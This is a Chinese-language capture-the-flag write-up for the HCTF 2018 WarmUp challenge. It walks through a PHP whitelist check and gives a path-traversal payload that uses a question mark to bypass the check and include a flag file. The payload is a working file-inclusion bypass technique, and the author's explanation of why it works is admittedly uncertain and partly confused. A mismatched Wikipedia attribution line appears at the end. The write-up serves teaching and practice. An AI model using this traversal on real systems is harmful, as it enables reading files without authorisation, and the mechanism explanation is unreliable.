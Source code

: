 ```yaml
---
title: [HCTF 2018]WarmUp
categories:
- General
- External sources
feature_text: |
  [HCTF 2018]WarmUp

---
```




### 2021.10.16

### [HCTF 2018]WarmUp

F12发现一个php文件被注释掉了

<!-- more -->

通过http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/source.php查看源代码:

![image-20211016175531793](C:\Users\PHY\AppData\Roaming\Typora\typora-user-images\image-20211016175531793.png)

开始查函数：

- isset：检测目标变量的值是否为NULL，如果是NULL返回False
- is_string：检测目标变量是否为字符串，如果是，返回True
- echo：相当于输出
- in_array(search,array,type)：搜索数组中是否存在指定的值，存在输出True（如果 *search* 参数是字符串且 *type* 参数被设置为 TRUE，则搜索区分大小写。）
- mb_substr( string $str , int $start [, int $length = NULL [, string $encoding = mb_internal_encoding() ]] ) : string      :划重点划重点了

![image-20211016180918301](C:\Users\PHY\AppData\Roaming\Typora\typora-user-images\image-20211016180918301.png)

- mb_strpos(haystack,needle)  :返回要needle在haystack字符串中首次出现的位置

- $_REQUEST:获取以POST方法和GET方法提交的数据

分析代码

cehckFile这个函数进行了 3次白名单检测、 2次问号过滤、一次URL解码

    class emmm
        {
            public static function checkFile(&$page)
        {
            //白名单列表
            $whitelist = ["source"=>"source.php","hint"=>"hint.php"];
            //isset()判断变量是否声明is_string()判断变量是否是字符串 &&用了逻辑与两个值都为真才执行if里面的值
            if (! isset($page) || !is_string($page)) {
                echo "you can't see it A";
                return false;
            }
            //检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($page, $whitelist)) {
                return true;
            }
            //过滤问号的函数(如果$page的值有？则从?之前提取字符串)
            
            //由此开始******************************************
            $_page = mb_substr(
                $page,
                0,
                mb_strpos($page . '?', '?')//返回$page.?里面?号出现的第一个位置
            );
    
             //第二次检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($_page, $whitelist)) {
                return true;
            }
            //url对$page解码
            $_page = urldecode($page);
    
            //第二次过滤问号的函数(如果$page的值有？则从?之前提取字符串)
            $_page = mb_substr(
                $_page,
                0,
                mb_strpos($_page . '?', '?')
            );
            //第三次检测传进来的值是否匹配白名单列表$whitelist 如果有则执行真
            if (in_array($_page, $whitelist)) {
                return true;
            }
            echo "you can't see it";
            return false;
        }
    }

```
payload：
http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/index.php?file=hint.php?../../../../../ffffllllaaaagggg
```

理解：

找到flag的关键是找到 ”ffffllllaaaagggg“ 这个文件，分析代码得知其进行了白名单和？的过滤。想要执行ffffllllaaaagggg这个文件，就要先得到index.php的权限（自我理解，有待考证），网址的载入是从后往前的（？），所以从后往前的第一个”？“被第一次问号过滤过滤掉。然后白名单过滤再将hint.php过滤掉，所以真正执行的网址其实是http://f047c895-2bc2-4d31-838f-a8f12e9bea1b.node4.buuoj.cn:81/index.php?file=../../../../../ffffllllaaaagggg

从而拿到flag

注：关于为什么只需要跳过一次问号过滤和一次白名单过滤是因为从 $_page = mb_substr(，才开始真正的过滤输入的网址





_Originally from [Alembic - Wikipedia](https://en.wikipedia.org/wiki/Alembic)_